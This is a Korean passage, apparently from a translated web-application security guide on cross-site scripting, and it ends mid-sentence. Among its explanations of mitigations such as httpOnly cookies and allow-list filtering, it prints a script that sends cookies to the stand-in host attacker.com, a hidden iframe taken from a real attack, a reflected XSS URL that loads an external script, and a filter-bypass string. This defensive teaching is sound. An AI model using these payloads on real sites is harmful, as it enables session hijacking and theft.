 지금까지 이러한 예제들은 아무런 피해를 주지 않았으므로, 이제 공격자가 사용자의 쿠키를 도용하여 (따라서 사용자의 세션을 탈취하는) 방법을 살펴보겠습니다. JavaScript에서는 `document.cookie` 속성을 사용하여 문서의 쿠키를 읽고 쓸 수 있습니다. JavaScript는 동일 출처 정책을 강제하므로, 한 도메인의 스크립트는 다른 도메인의 쿠키에 액세스할 수 없습니다. `document.cookie` 속성은 원래 웹 서버의 쿠키를 보유합니다. 그러나 XSS와 같이 코드를 HTML 문서에 직접 삽입하는 경우에만이 속성을 읽고 쓸 수 있습니다. 웹 애플리케이션의 어디에나 다음을 삽입하여 결과 페이지에서 자신의 쿠키를 확인할 수 있습니다.

```html
<script>document.write(document.cookie);</script>
```

공격자에게는 이것이 유용하지 않습니다. 피해자는 자신의 쿠키를 볼 수 있습니다. 다음 예제는 URL http://www.attacker.com/과 쿠키를 함께 이미지로 로드하려고 시도합니다. 물론 이 URL은 존재하지 않으므로 브라우저는 아무것도 표시하지 않습니다. 그러나 공격자는 웹 서버의 액세스 로그 파일을 검토하여 피해자의 쿠키를 확인할 수 있습니다.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.com의 로그 파일은 다음과 같이 기록됩니다.

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

이러한 공격을 완화하기 위해 쿠키에 **httpOnly** 플래그를 추가하여 JavaScript에서 `document.cookie`를 읽을 수 없도록 할 수 있습니다. HTTP only 쿠키는 IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4 및 Chrome 1.0.154 이후에서 사용할 수 있습니다. 그러나 WebTV 및 Mac의 IE 5.5와 같은 다른 오래된 브라우저는 페이지 로드에 실패할 수 있습니다. 그러나 [Ajax를 사용하여 쿠키를 확인할 수 있습니다](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly).

##### 변형

웹 페이지 변형을 통해 공격자는 다양한 작업을 수행할 수 있습니다. 예를 들어, 잘못된 정보를 제공하거나 피해자를 공격자의 웹 사이트로 유인하여 쿠키, 로그인 자격 증명 또는 기타 중요한 데이터를 도용할 수 있습니다. 가장 인기 있는 방법은 iframe을 사용하여 외부 소스에서 코드를 포함하는 것입니다.

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

이는 임의의 HTML 및/또는 JavaScript를 외부 소스에서 로드하여 사이트의 일부로 포함시킵니다. 이 `iframe`은 [Mpack 공격 프레임워크](https://isc.sans.edu/diary/MPack+Analysis/3015)를 사용하여 합법적인 이탈리아 사이트에 대한 실제 공격에서 가져온 것입니다. Mpack은 웹 브라우저의 보안 취약점을 통해 악성 소프트웨어를 설치하려고 시도합니다. 이 공격은 매우 성공적으로 50%의 공격이 성공합니다.

더 특수한 공격은 전체 웹 사이트를 겹쳐쓰거나 로그인 양식을 표시할 수 있습니다. 이 로그인 양식은 사이트의 원본과 동일하지만 사용자 이름과 비밀번호를 공격자의 사이트로 전송합니다. 또는 CSS 및/또는 JavaScript를 사용하여 웹 애플리케이션에서 합법적인 링크를 숨기고 가짜 웹 사이트로 리디렉션하는 다른 링크를 표시할 수 있습니다.

반사된 삽입 공격은 페이로드가 나중에 피해자에게 제공되는 것이 아니라 URL에 포함된 경우입니다. 특히 검색 양식에서 검색 문자열을 이스케이프하지 않는 경우에 발생합니다. 다음 링크는 "George Bush가 9세 소년을 의장으로 임명했다"라는 페이지를 제시했습니다.

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### 대응 방안

_악성 입력을 필터링하는 것은 매우 중요하지만, 웹 애플리케이션의 출력을 이스케이프하는 것도 중요합니다_.

특히 XSS의 경우, 제한된 대신 허용된 입력 필터링을 수행하는 것이 중요합니다. 허용된 목록 필터링은 허용되는 값들을 명시하는 반면, 제한된 목록은 완전하지 않습니다.

제한된 목록에서 사용자 입력에서 `"script"`를 삭제한다고 가정해보십시오. 이제 공격자가 `"<scrscriptipt>"`를 삽입하고 필터링 후에 `"<script>"`가 남습니다. 이전 버전의 Rails는 `strip_tags()`, `strip_links()` 및 `sanitize()` 메서드에 대해 제한된 목록 접근 방식을 사용했습니다. 따라서 다음과 같은 삽입이 가능했습니다.
